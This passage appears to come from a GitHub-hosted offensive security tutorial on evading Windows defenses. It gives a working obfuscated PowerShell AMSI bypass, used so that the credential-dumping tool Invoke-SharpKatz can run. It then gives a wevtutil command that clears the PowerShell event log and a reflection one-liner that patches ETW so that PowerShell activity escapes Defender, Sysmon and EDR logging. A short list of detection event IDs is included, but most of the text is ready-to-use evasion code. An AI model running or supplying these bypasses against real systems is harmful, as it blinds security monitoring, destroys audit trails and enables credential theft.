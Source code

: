 Safe both commands to a file and run gocheck64

And now let's run an obfuscated AMSI Bypass from the same powershell terminal:

`OLD ONE`

```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c, ' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

And let's try that Invoke-SharpKatz again, if all goes well, AMSI should be patched and the script will run:

Success!!!

> ***DETECTIONS***
> Eventlog 800, 4103, 4104
> 
----

However bypassing AMSI doesn't disable eventlogs - which are useful telemetry for EDR's, SIEM's and UEBA's. Let's open Eventviewer again and see what was logged.

A very cool Forensics tools that can anaylyze powershell logs is `Powershell-Hunter` - if we run this on our powershell logs it will also flag some suspicious commands.

Ideally we don't want any of these logs to be generated and thus shutting off the telemety for security solutions, we can do this by patchin ETW (Event Tracing for Windows).

Let's clear the powershell event logs again before we apply the ETW bypass (remember AMSI is already patched so this ETW bypass doesn't need to be obfuscated):

```powershell
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
```

**ETW Bypass**

```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

In summary, this command does the following:

>**[+]** Uses reflection to access internal, non-public fields in .NET classes.
>
>**[+]** Targets the etwProvider object within PowerShell’s PSEtwLogProvider class, which handles ETW logging.
>
>**[+]** Sets the m_enabled field of the underlying EventProvider to false, disabling ETW event logging for PowerShell activities.
>
>**Result**: PowerShell commands, script blocks, and other activities that would normally be logged via ETW (e.g., for security monitoring or auditing) will no longer generate ETW events, making them harder to detect by security tools like Windows Defender, Sysmon, or other EDR solutions that rely on ETW.
